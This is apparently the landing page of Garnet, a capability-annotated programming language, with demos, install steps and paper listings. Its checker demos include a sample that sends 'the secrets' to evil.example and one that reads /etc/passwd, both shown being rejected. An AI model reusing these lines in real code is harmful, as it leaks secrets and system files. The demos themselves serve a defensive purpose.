

English is how you tell an agent what to do.
Garnet is how anyone else can trust what it did.
Most language sites open with a greeting. This one opens with a rejection, because that is the product. The function below is annotated @caps() and calls net::tcp_connect; garnet check refuses it and exits 1. A diff then answers what new authority does this change declare?, and a seal writes the paperwork out of evidence that already exists.
$ cat exfil.garnet @caps() def main() { net::tcp_connect("evil.example:443", "the secrets") 0 } $ garnet check exfil.garnet caps coverage: function `main` does not declare `net` but transitively calls `net::tcp_connect` which requires it 1 functions checked, 1 boundary call sites, 1 diagnostics $ echo $? 1 $ garnet diff-caps --machine hello.garnet declared.garnet {"schema":"garnet.diff-caps.machine/1","verdict":"authority-expanded","authority_expanded":true,"capability_band":"2/5","exit_code":1,"aggregate_gained":["net"],…"scope":"declared-surface-only; does not prove absence of undeclared authority; bound annotations are not part of this surface"} $ garnet seal hello.garnet {"_type":"https://in-toto.io/Statement/v1","subject":[{"name":"hello","digest":{"blake3":"be28668b…bf8845c2"}}],"predicateType":"https://garnet-lang.org/attestation/seal/v1",… garnet seal: cosign not installed — in-toto predicate emitted UNSIGNED (wrap-don't-rebuild: install cosign to attest; Garnet does not sign supply-chain itself)
Captured unedited on 2026-09-02 from garnet 0.8.1 built at main fbd64bc5, in a fresh directory with no .garnet-cache; only long JSON lines are elided with an ellipsis. The checker rejects an undeclared call reached along a named, acyclic call chain from an annotated function — that is the bound the check holds to, and the capability enforcement scope states where it ends. garnet run does not invoke the checker. Run check and diff-caps yourself, in the browser →
The capture above ran on a machine you have to take our word for. This one runs on yours. It is a committed WebAssembly build of Garnet's checker. It runs two of the capture's acts — check a program, and diff its declared capability surface against a baseline — plus run; sealing stays on the command line. It loads only when you ask, because the runtime is 2.2 MB and a landing page should not spend that uninvited.
Choose Custom source, paste the five-line program from the capture above, and press Check — the rejection is the one you just read.
Committed package: garnet_wasm_bg.wasm, 2,216,679 bytes, sha256 e0dcf1a3…. Clean-browser proof pass (the recorded run), with zero external requests — every file it fetched is committed to this repository — and no OS host authority granted to the runtime. The capability diff is declared-surface-only: it reports what a change declares, not the absence of undeclared authority. Open the playground on its own page →
Rust gives you mathematical rigor at the cost of cognitive load. Ruby gives you conversational beauty at the cost of runtime surprise. Garnet gives you both — within a single coherent language whose mode boundary is the reconciliation.
Mathematical correctness. Memory discipline. Zero-cost abstractions. Performance to the metal.
But — cognitive load, lifetimes-as-mental-stack, ceremony.
Managed mode (def + ARC + exceptions) feels Ruby-like. Safe mode (@safe + fn + ownership + Result) feels Rust-like.
The mode boundary is where errors and ownership meet; the automatic runtime bridge is specified and still deferred.
Conversational beauty. High velocity. Joyful to read, fast to write. DSLs flow.
But — ambient authority, runtime surprise, no compile-time net.
Every team eventually picks: Rust for the hot path, Ruby for the orchestration, and writes a painful FFI between them. Or picks one language and swallows its weakness.— The Reconciliation, Paper III §1
Garnet's dual-mode design makes the same source file velocity-first at the top level and rigor-first in the safe modules — with no FFI in between.
Capability security, bounded execution, and signed provenance are well-precedented — Pony and Austral, Wasmtime and eBPF, Sigstore and SLSA each do a piece well. Garnet's bet is the integration, not the parts: one language that carries capability annotations, deterministic builds, in-toto attestations, and capability-surface diffing, aimed at agent-authored code and shipping the evidence with it.— Positioning, evidence-matched: integration over pillar-by-pillar novelty
The headline is diff-caps: when a dependency or an agent's PR changes the authority the code declares, Garnet answers "what new authority am I granting?" in one screen — turning the review bottleneck (the binding constraint on accepting AI-written code) into a machine-checkable diff of the declared surface.
Switch between examples to see how Garnet inherits Rust's shape and Ruby's brevity. The keyword chooses the register: def = managed, fn = safe.
fn greet(name: &str) -> String { format!( "Hello, {}!", name) }
def greet(name) "Hello, #{name}!" end
# Managed — Ruby feel def greet(name) { "Hello, #{name}!" } # Safe — Rust rigor @safe fn greet( borrow name: String) -> String { "Hello, #{name}!" }
fn read_config( path: &Path) -> Result<Config, io::Error> { let content = fs::read_to_string(path)?; toml::from_str(&content) .map_err(convert_err) }
def read_config(path) content = File.read(path) TOML.parse(content) rescue Errno::ENOENT nil end
@caps(fs) def read_config(path) { try { TOML.parse( fs::read_file(path)) } rescue e: FileNotFound { nil } }
let names: Vec<String> = users.iter() .filter(|u| u.active) .map(|u| u.name.clone()) .collect();
names = users .select(&:active) .map(&:name)
# Pipeline style let names = users |> filter(|u| u.active) |> map(|u| u.name) # Ruby block style let names = users .filter do |u| u.active end .map do |u| u.name end
use some_vector_db::*; use some_episodic_log::*; struct Agent { events: EventLog<Event>, facts: VectorStore<Fact>, } impl Agent { // ...setup ceremony... }
class Agent def initialize @events = [] @facts = {} end def remember(e) @events << e end end
actor Agent { memory episodic events : EpisodeStore<Event> memory semantic facts : VectorIndex<Fact> protocol remember(e: Event) -> Bool protocol recall(q: String) -> Array<Fact> on remember(e) { events.append(e); true } }
These are not libraries. They are language and toolchain constructs — some checked by garnet check, some carried by the runtime or the build — and each card says how far it goes today.
Same grammar, two registers. Managed mode (def) reads like Ruby. Safe mode (@safe fn) reads like Rust. Automatic error and ownership bridging at the boundary is specified, not yet wired.
garnet check prints a call-site count, a coarse tally of the calls it walks; it is not yet a mode-aware crossing analysis. A reviewer-readable crossing log (ModeAuditLog) is modelled in the checker; the CLI does not write it yet.
A function declares its OS-authority budget with @caps. garnet check rejects an undeclared call reached along a named, acyclic call chain from an annotated function, and the fifteen gated host primitives also require the program entry's declared budget at run time.
First-class memory working|episodic|semantic|procedural declarations, each backed by a reference store (Mnemos). Allocator integration is sequenced on the Memory Core roadmap, not shipped. Paper VI Contribution 4.
Address::reload swaps an actor's behaviour in place, refuses a downgrade unless asked, and replays the messages buffered during the swap. An Ed25519 reload-authorisation module and BLAKE3 state fingerprints ship in the actor runtime; checking a signature is not yet wired into the reload path.
garnet build --deterministic --sign <keyfile> emits a deterministic source-provenance manifest with an Ed25519 signature, and garnet verify recomputes it from the source. Release binaries are checked separately, against SHA256SUMS and the release signing key.
Garnet is not claiming to replace either parent. This table is positioning, not a benchmark: where each language sits, and what Garnet's dual-mode design buys you. The last row stays tied to current evidence.
| Axis | Rust | Ruby | Garnet |
|---|---|---|---|
| Memory safety | Compile-time ownership | Runtime GC | Safe mode: ownership · Managed mode: ARC-managed |
| Cognitive load | High (lifetimes) | Low | Progressive — low in managed, Rust-like in safe |
| Error model | Result<T,E> | Exceptions | Both; automatic bridging at the mode boundary is specified, not yet wired |
| Concurrency | Threads/async, Send+Sync | GVL-limited | Actors + Sendable checking |
| Agent/memory primitives | Library | Library | Language-level (working/episodic/semantic/procedural) |
| Capability control | External crates | External gems | @caps(...) in the language |
| Reproducible builds | Tooling-dependent | Not a goal | Manifest + Ed25519 signature contract |
| Maturity | Production | Production | Research-grade prototype (v0.x.x) — not production-complete |
@caps(fs) is a semantic beacon: a single annotation that front-loads the function's declared OS-authority budget. Humans and language models can scan a file and read what each function claims, and garnet check rejects an undeclared call reached along a named, acyclic call chain from an annotated function.
@caps(fs) def get_user_summary(path, id) { let data = JSON.parse( fs::read_file(path)) let user = data["users"][id] "#{user.name}: #{user.email}" } # garnet check: caps coverage: # function `bad` does not declare # `fs` but transitively calls # `fs::read_file` which requires it @caps() def bad() { fs::read_file("/etc/passwd") }
fs::* primitive, and gated at run time.net::tcp_connect, gated at run time) under a strict default policy that denies RFC1918, loopback, link-local and cloud-metadata addresses. Listen and UDP are declared, not bridged.garnet check; not gated at run time.The garnet convert tool is a migration assistant, not a full transpiler: it reads four deterministic source lanes and emits Garnet tagged @sandbox and @caps(), with lineage, metrics, and a human migration checklist. @sandbox is a quarantine marker a reviewer lifts after audit, not an execution boundary: nothing in garnet run enforces it. @caps() is an empty declared budget that garnet check holds the converted code to.
| Tier | What it means |
|---|---|
| Active conversion Rust · Ruby · Python · Go | Deterministic frontends — carries ownership-like shape, module boundaries, and migration evidence with deterministic behavior. |
| Advisory planning JS · TS · Swift · Java · Perl · Kotlin · Shell · SQL · … | Risk-first migration planning + inventory until deterministic parser/lineage support lands; explicit and human-gated. |
| Native boundary C · C++ · Obj-C · Asm · CUDA · platform | Explicit modules or FFI with CapCaps and a generated (not self-enforced) sandbox policy where ABI and hardware behavior are source-of-truth. |
Backend Wasm/LLVM-style lowering is planned (pending backend evidence). The fit rule, LLM-advisory review path, and machine-readable adoption surface are detailed in the full conversion policy →
def parse_config(text) text.split("\n").map do |line| k, v = line.split("=", 2) [k.strip, v.strip] end.to_h end
@sandbox @caps() module Config { def parse_config(text) { let out = {} for line in text.split("\n") { let parts = line.split("=", 2) out.insert( parts[0].trim(), parts[1].trim()) } out } }
Adoption surface evidence is machine-readable through scripts/garnet_adoption_surface_status.py. It keeps the provider-neutral prompt pack, provider-option registry, and advisory flow bounded: source classifier -> risk inventory -> Garnet context -> advisory plan -> review handoff -> human-approved candidate -> garnet check/test/dogfood.
The universal installer now targets the v0.8.1 release path. It pulls release packages when they exist, verifies them against SHA256SUMS, and falls back to a source install through cargo install --locked only when no matching release asset exists. The v0.8.1 GitHub Release ships signed garnet-0.8.1-* CLI binaries + a CycloneDX SBOM; detailed productization gates live on the readiness status page.
| Platform | v0.8.1 asset | Current path |
|---|---|---|
| macOS · Apple Silicon | garnet-0.8.1-aarch64-apple-darwin.tar.gz | release tarball; signed .pkg not claimed |
| macOS · Intel | garnet-0.8.1-x86_64-apple-darwin.tar.gz | release tarball; signed .pkg not claimed |
| Linux x86_64 | garnet_0.8.1-1_amd64.deb · garnet-0.8.1-1.x86_64.rpm | release package |
| Linux aarch64 | — no package claimed — | source install |
| Windows | — no package claimed — | source install |
SHA256SUMS):shasum -a 256 --ignore-missing -c SHA256SUMS
# Universal installer: curl --proto '=https' --tlsv1.2 -sSf https://garnet-lang.org/install.sh | sh # Force native release package only: curl --proto '=https' --tlsv1.2 -sSf https://garnet-lang.org/install.sh | GARNET_INSTALL_MODE=release sh # Force source install: curl --proto '=https' --tlsv1.2 -sSf https://garnet-lang.org/install.sh | GARNET_INSTALL_MODE=source sh
# Recommended — universal installer: # uses v0.8.1 CLI tarballs when available and otherwise falls back # to source install. Signed .pkg/notarization is not claimed yet. curl --proto '=https' --tlsv1.2 -sSf https://garnet-lang.org/install.sh | sh # Source install (any arch, needs a Rust toolchain): git clone https://github.com/Island-Dev-Crew/garnet && cd garnet/garnet-cli && cargo install --path . # For Apple distribution evidence, see status.html.
# Recommended — universal installer (SHA256SUMS-verified): curl --proto '=https' --tlsv1.2 -sSf https://garnet-lang.org/install.sh | sh # Published v0.8.1 release assets: # https://github.com/Island-Dev-Crew/garnet/releases/tag/v0.8.1 # Debian/Ubuntu: sudo apt install ./garnet_0.8.1-1_amd64.deb # Fedora/RHEL: sudo dnf install ./garnet-0.8.1-1.x86_64.rpm # Source install (any arch, needs a Rust toolchain): git clone https://github.com/Island-Dev-Crew/garnet && cd garnet/garnet-cli && cargo install --path .
# Supported today — source install (needs a Rust toolchain): git clone https://github.com/Island-Dev-Crew/garnet && cd garnet/garnet-cli && cargo install --path . # Windows package evidence is tracked on status.html.
See it run — the real first-project loop:
$ garnet new --template cli my_app created my_app/ (cli template) $ cd my_app $ garnet test test test_arithmetic ... ok test test_string_interpolation ... ok test result: ok. 2 passed; 0 failed; in 2 file(s) $ garnet run src/main.garnet Edit src/main.garnet to change this message. => 0
After install, scaffold a project:
garnet new --template cli my_app cd my_app garnet test # 2 starter tests pass green garnet run src/main.garnet
New here? Follow the Getting Started walkthrough →
Keeping Garnet updated:
git pull then cargo install --path . for a source build. A first-class toolchain manager — garnet update, stable/nightly channels, and garnet self uninstall — is planned and not yet available. This section will change when it ships; it is listed here so the roadmap stays explicit, not so the commands look real.
The macOS Studio surface is a source-checkout workbench for real Garnet flows — not a separate product. It runs:
In Codex Desktop, a Codex Run action wires script/build_and_run.sh to build SwiftPM, stage dist/Garnet Studio.app, and launch it.
The Windows/Linux lane now has a separate Tauri v2 shell scaffold under apps/garnet-studio. Windows local proof covers the Vite frontend build, Tauri backend tests, release executable, unsigned NSIS bundle, --studio-smoke Desktop evidence, a Release / Readiness panel wired to the repo-native v0.5 reporters, verified x64 clean-VM installer proof, WSL package/window portability evidence, Studio Domain Proof Matrix shell output, and Release / Readiness shell reporter output. It is still not signed MSI, winget, clean/non-WSL Linux desktop GUI launch, live Release / Readiness GUI screenshot proof, Windows ARM64 proof, or completed cross-platform package proof.
Use the Codex Run action or ./script/build_and_run.sh --verify to build, launch, and prove the app process from the checkout.
Studio exposes Assist Plan, Advisory Bundle, Advisory Review, and Advisory Handoff for TypeScript, JavaScript, Swift, Java, C, C++, C#, Perl, Kotlin, Shell, SQL, and Other as local planning, review, and source-free handoff evidence under ~/Desktop/dogfood/, not active conversion.
The Release panel can run the repo-native MIT/productization reporter and generate manifested demo-route, deck-outline, and browser-smokeable deck-preview bundles, keeping presentation rehearsal separate from the completed tracked-slice ledger and final acceptance. Detailed signing, notarization, clean-machine Gatekeeper evidence, and the machine-readable preflight status reporter stay on the readiness status page.
The Release panel can show which Mac-side lanes can still move from this checkout and which gates belong to Apple credentials or Windows/Linux runtime proof.
# From a source checkout: ./script/build_and_run.sh --verify # Codex Desktop: # click Run, which calls ./script/build_and_run.sh # Output bundle: dist/Garnet Studio.app
One pass through the whole idea: the browser playground refuses an undeclared network call, the command line names the authority a change would declare and shows that comparing a file with itself reports no authority expansion, and a seal emits an unsigned in-toto Statement.
@caps() / def main() { / net::tcp_connect("evil.example:443", "the secrets") / 0 / }. Check returns check.caps_coverage: “caps coverage: function `main` does not declare `net` but transitively calls `net::tcp_connect` which requires it”. The status shown is the page's, not a process exit code.garnet diff-caps --machine before.garnet after.garnet, where before is @caps() def main() { 0 } and after is @caps(net) def main() { 0 }. Verdict authority-expanded, exit_code 1, aggregate_gained ["net"], scope “declared-surface-only; does not prove absence of undeclared authority”.garnet diff-caps --machine before.garnet before.garnet: verdict no-authority-expansion, exit_code 0, nothing gained.garnet seal hello.garnet --out hello.seal.json on @caps() def main() { "Hello, world!" }. It reports “predicate written to hello.seal.json” and “cosign not installed — in-toto predicate emitted UNSIGNED”.jq shows _type https://in-toto.io/Statement/v1, subject hello with a BLAKE3 digest, and predicateType https://garnet-lang.org/attestation/seal/v1.A local recording, take-03, made on macOS arm64 on 2026-09-07. The check runs in the live public playground — the browser package, whose status is not a process exit code. The diff, the unchanged control and the seal run on a source build of the CLI at main 452a0e2 (binary sha256 e548b0d9…), not the released v0.8.1 binary. It is not independent review and not a launch clearance, and its opening and closing cards still carry the capture's own unpublished · hold stamp, set before its publication was decided. Its receipt — status captured-pass-scoped, recording sha256 40db808f…, of which this MP4 is a frame-for-frame H.264 encoding — is not yet published with it. Check and diff run in the playground on this page; seal needs a build from Install.
A landing page is a poor place for a scoreboard: the figures move, the caveats do not fit, and a number without its derivation is decoration. Test counts, tracked slices, the productization percentage, and every platform's own gate are kept on one page, each beside the command that produced it and the limits that still apply.
Objective accounting keeps the landing page confident and the status page precise: the tracked implementation plan is complete, while platform distribution, provider-backed assist, backend lowering, proof, and empirical validation remain separately gated. Garnet is research-grade v0.8.1 and not production or 1.0.
Garnet ships seven research papers plus four addenda. Where claims are empirical, evidence is traceable to reproducible artifacts; empirical claims are labeled by confidence and status, with partial outcomes explicitly downgraded in the v4.0 revisions.
The canonical language specification. Grammar, type system, mode boundary, capability inventory, deterministic build manifest.
The current capability-tagged primitive table: pure string/array/crypto helpers plus explicit time, file, and network authority.
Rust + Ruby → Garnet. The dual-mode design rationale, the mode boundary as a first-class construct, the capability model.
Seven novel contributions, pre-registered Phase 1C, executed Phase 4A. Evidence scorecard: 4 supported, 2 partial, 0 refuted, 1 pending-infra.
Side-by-side Rust / Ruby / Garnet across 10 patterns. The §20 chapter explicitly separates measured claims from argued claims.
What the EU Cyber Resilience Act asks a reporting obligation to produce, and which of those artifacts Garnet already emits. Positioning, not a launch claim.
The one real seam between the two: skills linked into four harness directories by the same idiom the evidence repository installs with. Not affiliated.
Garnet is early and the community surface states the current truth. GitHub Discussions are live as of v0.5.0 — that's where design conversations, show & tell, and RFCs happen. A Discord/chat server is not — chat will only appear here when contributor volume sustains it.
Pinned threads to start with: Welcome · Show & tell — what are you building · RFC — package registry shape.